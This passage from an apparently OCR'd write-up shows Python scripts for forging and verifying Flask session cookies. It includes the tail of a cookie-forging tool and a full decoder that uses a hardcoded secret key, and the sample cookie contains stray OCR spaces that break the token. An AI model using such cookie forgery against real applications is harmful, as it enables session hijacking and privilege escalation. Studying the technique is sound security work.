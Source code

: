 ```python
    p.print_good("Generated signed cookie : {}".format(gen_payload))

if __name__ == '__main__':

    p.print_title("Flask Cookie Forger")

    # Forge
    p.print_separator(suffix="FORGING COOKIE", separator='=')
    t2 = p.start_progress(task="Forge Cookie with payload {} ...".format(PAYLOAD), enable_dots=False)
    forgeSession()
    p.stop_progress(t2)
```

更多的相关脚本如下：

verify_flask_session.py

```python
#!/usr/bin/env python3
# encoding: utf-8

from hashlib import sha512
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
import base64
import zlib
from cuteprint import PrettyPrinter # Available here : https://github.com/terryvogelsang/cuteprint

EXAMPLE_SESSION = '.eJwlj0FuwzAMBP-icw4iJdFiPmNQ5 BINArSAnZyK_j0Get_BzP6WPQ-cX-X-Ot64lf0R5V5 s1 sEBClFMY-qWvACMJFelBKp6o1 hWVRJC050Cm4oNSCNp2aXpUIfVMbeexKjcPRKrL2dJulYDxDW56aVL1RgZQtUqlVvx88j99fPE99UTGTxyTYQsUV5kdeNltnX22cJ1CNs2-eLeJ47_E9LL3wdmwz_i.DbwCXg.HQ1RqyWO8SVCgiL5zC-weeD3AjkdGVWTpXSl_PUyC4nnK7kvKrzX6uv1pwxWzx6VaukHjzb5Dkf8vTo3yNmHEA'

p = PrettyPrinter()

signer = URLSafeTimedSerializer(
    'secret-key', salt='cookie-session',
    serializer=session_json_serializer,
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha512}
)

def readAndVerifyCookie():
    try:
        session_data = signer.loads(EXAMPLE_SESSION)
        p.print_good("Correct Signature !")
        p.print_good("Session Data : {}".format(session_data))
    except BadTimeSignature:
        p.print_bad("Incorrect Signature for cookie : {}".format(EXAMPLE_SESSION))

if __name__ == '__main__':

    p.print_title("Flask Cookie Checker")

    # Decode
    p.print_separator(suffix="DECODING COOKIE", separator='=')
    t1 = p.start_progress(task="Decoding Cookie {} ...".format(EXAMPLE_SESSION), enable_dots=False)
    readAndVerifyCookie()
    p.stop_progress(t1)
```

